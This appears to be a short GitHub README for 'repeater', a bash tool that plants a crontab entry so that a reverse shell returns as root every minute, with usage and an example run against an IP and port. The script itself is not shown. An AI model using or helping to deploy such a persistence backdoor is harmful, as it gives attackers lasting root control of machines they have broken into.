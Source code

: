 # repeater
Repeater is a bash program that does a reverse shell in crontab, 
making the shell come back as root every minute.
This program must run in the target machine with root privilages, or with sudo.

Usage:
./repeater.sh Ip Port

Example:
./repeater.sh 10.10.10.10 9001
 
The author is NOT responsible for the illegal use of this program, all responsibility lies with the user.
